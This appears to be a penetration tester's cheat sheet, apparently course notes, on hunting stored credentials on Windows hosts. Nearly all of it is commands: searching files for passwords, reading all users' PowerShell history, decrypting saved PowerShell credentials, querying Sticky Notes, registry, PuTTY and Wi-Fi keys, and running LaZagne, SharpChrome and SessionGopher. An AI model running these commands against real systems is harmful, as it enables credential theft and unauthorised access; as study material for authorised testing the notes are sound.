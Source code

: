 ### Application Configuration Files 
```powershell
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
### Dictionary Files
Add words the dictionary doesn't understand?
```shell-session
gc 'C:\Users\htb-student\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt'
```
### Unattended Installation Files 
May define auto-logon settings or additional accounts 
Unattended.xml

#### History File 
Confirm PowerShell history save path 
```powershell
(Get-PSReadLineOption).HistorySavePath
```
Read History 
```powershell
gc (Get-PSReadLineOption).HistorySavePath
```
Read for all users we can access 
```powershell
foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

### PowerShell Credentials 
Protected using [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API)
Typically can only be decrypted by the same user. 
Decrypt Password:
```powershell
$credential = Import-Clixml -Path '<path to file>'

$credential.GetNetworkCredential().username

$credential.GetNetworkCredential().password
```

### Other Files
In an active directory use [Snaffler](https://github.com/SnaffCon/Snaffler) to search for files.
Example Searches for File contents 
```cmd
cd <directory> & findstr /SI /M "password" *.xml *.ini *.txt

findstr /si password *.xml *.ini *.txt *.config

findstr /spin "password" *.*

Select-string -Path <directory>\*.txt -Pattern password
```

Example Searches for File Extensions 
```cmd
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

where /R C:\ *.config
```

```cmd
Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

### Sticky Notes Passwords
```cmd
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```
Copy the file and open with a [DB Browser](https://sqlitebrowser.org/dl/)
View In powershell using [PSSQLite](https://github.com/RamblingCookieMonster/PSSQLite)
```powershell
Set-ExecutionPolicy Bypass -Scope Process

cd .\PSQLite\

Import-Module .\PSQLite.psd1

$db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'

Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```
Can also use strings

### Interesting Files
```Files
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

### [CmdKey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) Saved Credentials
Stored credentials for for CLI work
```cmd
cmdkey /list
```
Run commands as another use 
```powershell
runas /savecred /user:<domain/user>

```

### Browser Credentials 
[SharpChrome](https://github.com/GhostPack/SharpDPAPI) to retrieve cookies and saved logins. 
```cmd
.\SharpChrome.exe logins /unprotect
```

### Password Managers
KeePass stores locally.
	.kdbx
	keepass2john
	
### Email
[Mail Sniper](https://github.com/dafthack/MailSniper)on Microsoft exchange

### Registry 
Windows AutoLogon
```shell-session
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
Putty
```shell-session
reg query Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```

```shell-session
reg query Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<session name>
```

### Final Effort
[LaZagne](https://github.com/AlessandroZ/LaZagne)
```cmd
.\lazagne.exe all
```
[SessionGopher](https://github.com/Arvanaghi/SessionGopher)
```powershell
Import-Module .\SessionGopher.ps1

Invoke-SessionGopher -Target <pc name>

cmd /k hostname
```
### WiFi Passwords
Rare
```cmd
netsh wlan show profile
netsh wlan show profile <profile name> key=clear
```
